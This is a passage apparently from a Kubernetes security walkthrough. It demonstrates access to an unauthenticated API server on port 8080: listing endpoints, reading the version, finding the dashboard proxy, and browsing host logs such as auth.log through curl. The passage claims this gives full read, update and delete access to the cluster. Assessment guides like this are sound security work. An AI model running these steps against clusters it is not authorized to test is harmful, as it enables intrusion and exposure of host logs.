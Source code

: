 ```
    "/healthz/poststarthook/generic-apiserver-start-informers",
    "/healthz/poststarthook/kube-apiserver-autoregistration",
    "/healthz/poststarthook/start-apiextensions-controllers",
    "/healthz/poststarthook/start-apiextensions-informers",
    "/healthz/poststarthook/start-kube-aggregator-informers",
    "/healthz/poststarthook/start-kube-apiserver-informers",
    "/logs",
    "/metrics",
    "/swagger-2.0.0.json",
    "/swagger-2.0.0.pb-v1",
    "/swagger-2.0.0.pb-v1.gz",
    "/swagger.json",
    "/swaggerapi",
    "/ui",
    "/ui/",
    "/version"
  ]
}
```
Because the unencrypted request was successful and the list of available endpoints came back, it means we have full access to the API server and can get/update/delete any information stored inside the cluster.

Obtain the version of the Kubernetes API Server:
```
$ curl $CONTROLLERIP:8080/version
{
  "major": "1",
  "minor": "9",
  "gitVersion": "v1.9.2",
  "gitCommit": "5fa2db2bd46ac79e5e00a4e6ed24191080aa463b",
  "gitTreeState": "clean",
  "buildDate": "2018-01-18T09:42:01Z",
  "goVersion": "go1.9.2",
  "compiler": "gc",
  "platform": "linux/amd64"
}
```

List the services available via the API's built-in `/ui` proxy:
```
$ curl $CONTROLLERIP:8080/ui/
<a href="/api/v1/namespaces/kube-system/services/https:kubernetes-dashboard:/proxy/">Temporary Redirect</a>.
```
Because we have sufficient access to the cluster API, visiting this URL will likely result in the ability to access the Kubernetes dashboard in this cluster.

Obtain logs from containers, pods, and system logging endpoints on the underlying host:
```
$ curl $CONTROLLERIP:8080/logs/
<pre>
<a href="apt/">apt/</a>
<a href="auth.log">auth.log</a>
<a href="auth.log.1">auth.log.1</a>
<a href="auth.log.2.gz">auth.log.2.gz</a>
<a href="auth.log.3.gz">auth.log.3.gz</a>
<a href="btmp">btmp</a>
<a href="btmp.1">btmp.1</a>
<a href="cloud-init-output.log">cloud-init-output.log</a>
<a href="cloud-init.log">cloud-init.log</a>
<a href="containers/">containers/</a>
<a href="dist-upgrade/">dist-upgrade/</a>
<a href="dpkg.log">dpkg.log</a>
<a href="dpkg.log.1">dpkg.log.1</a>
```